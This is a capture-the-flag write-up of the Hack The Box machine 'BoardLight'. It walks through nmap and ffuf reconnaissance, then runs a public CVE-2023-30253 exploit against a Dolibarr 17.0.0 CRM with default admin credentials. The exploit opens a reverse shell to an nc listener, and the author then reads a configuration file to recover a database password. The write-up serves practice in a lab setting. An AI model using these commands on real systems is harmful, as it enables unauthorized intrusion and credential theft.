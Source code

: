 # BoardLight

**Date:** 14, jun, 2024

**Author:** H3cktor



### Recon

**Using NMAP to make Recon**&#x20;

```bash
nmap -sC -sV 10.10.11.11
```

\-sV => Attempts to determine the version of the service running on port

\-sC  => Scan with default NSE scripts. Considered useful for discovery and safe

<figure><img src="../../../../.gitbook/assets/image (207).png" alt=""><figcaption></figcaption></figure>

After the **nmap** scan we can see an apache server listening on port 80:

Lets add this to our host file:

```bash
sudo nano /etc/hosts
```

<figure><img src="../../../../.gitbook/assets/image (208).png" alt=""><figcaption></figcaption></figure>



Lets first try to do a directory search to try to find any hidden files/**directory's**. I will use **gobuster**  to do this:

<figure><img src="../../../../.gitbook/assets/image (210).png" alt=""><figcaption></figcaption></figure>

Make subdomain enumeration Using **FFUF**

```bash
ffuf -H "Host: FUZZ.board.htb"  -u http://10.10.11.11/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt  -fw 6243

```

<figure><img src="../../../../.gitbook/assets/image (199).png" alt=""><figcaption></figcaption></figure>

See i found the Subdomain crm.10.10.11.11

<figure><img src="../../../../.gitbook/assets/image (208).png" alt=""><figcaption></figcaption></figure>



**I Found the crm  panel**

<figure><img src="../../../../.gitbook/assets/image (200).png" alt=""><figcaption></figcaption></figure>

Ok Now Found the Dolibarr version 17.0.0 and i Search in Google to get any CVE&#x20;

i found [Dolibarr-17.0.0-CVE-2023-30253](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253)

Reverse Shell POC exploit for **`Dolibarr <= 17.0.0 (CVE-2023-30253)`**, PHP Code Injection

```bash
sudo python3 exploit.py   http://crm.board.htb admin admin  <ip Your tun0> 9000

```



listen revers shell => Must run listening in First

```
nc -nvlp 9000
```

\
First I provided a listener and then executed the exploit.py file. Then I provided the credentials as well as my attacker ip and the listening port. After executing, I successfully got a reverse shell

<figure><img src="../../../../.gitbook/assets/image (201).png" alt=""><figcaption></figcaption></figure>



B0000000M!

<figure><img src="../../../../.gitbook/assets/image (202).png" alt=""><figcaption></figcaption></figure>

I cat Found in pass or Cardantional&#x20;

put i see the user name larissa

<figure><img src="../../../../.gitbook/assets/image (203).png" alt=""><figcaption></figcaption></figure>

I found the main database password in the file.

<figure><img src="../../../../.gitbook/assets/image (204).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (205).png" alt=""><figcaption><p>User Own</p></figcaption></figure>

